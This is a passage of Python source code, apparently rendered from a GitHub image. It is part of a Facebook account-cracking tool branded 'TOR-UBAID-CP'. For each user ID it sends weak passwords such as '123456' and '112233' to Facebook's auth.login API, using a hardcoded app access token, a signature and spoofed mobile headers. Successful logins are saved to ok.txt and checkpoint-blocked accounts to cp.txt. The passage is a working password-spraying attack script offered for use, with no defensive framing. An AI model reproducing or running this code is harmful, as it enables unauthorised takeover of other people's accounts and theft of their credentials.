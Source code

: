 											print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("cp.txt", "a")
											cp.write(uid+"|"+pass4+"\n")
											cp.close()
											cps.append(uid+pass4)
										else:
											pass5 = "123456"
											api = 'https://b-api.facebook.com/method/auth.login'
											params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass5, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
											headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
											data = requests.get(api, params=params, headers=headers_)
											if "access_token" in data.text and "EAAA" in data.text:
												print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass5+"\033[0;97m")
												ok = open("ok.txt", "a")
												ok.write(uid+"|"+pass5+"\n")
												ok.close()
												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in data.json()['error_msg']:
													print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass5+"\033[0;97m")
													cp = open("cp.txt", "a")
													cp.write(uid+"|"+pass5+"\n")
													cp.close()
													cps.append(uid+pass5)
												else:
													pass6 = "112233"
													api = 'https://b-api.facebook.com/method/auth.login'
													params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass6, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
													headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
													data = requests.get(api, params=params, headers=headers_)
													if "access_token" in data.text and "EAAA" in data.text:
														print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass6+"\033[0;97m")
														ok = open("ok.txt", "a")
														ok.write(uid+"|"+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in data.json()['error_msg']:
															print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass6+"\033[0;97m")
															cp = open("cp.txt", "a")
															cp.write(uid+"|"+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															pass7 = "123356789"
															api = 'https://b-api.facebook.com/method/auth.login'
															params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass7, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
															headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
															data = requests.get(api, params=params, headers=headers_)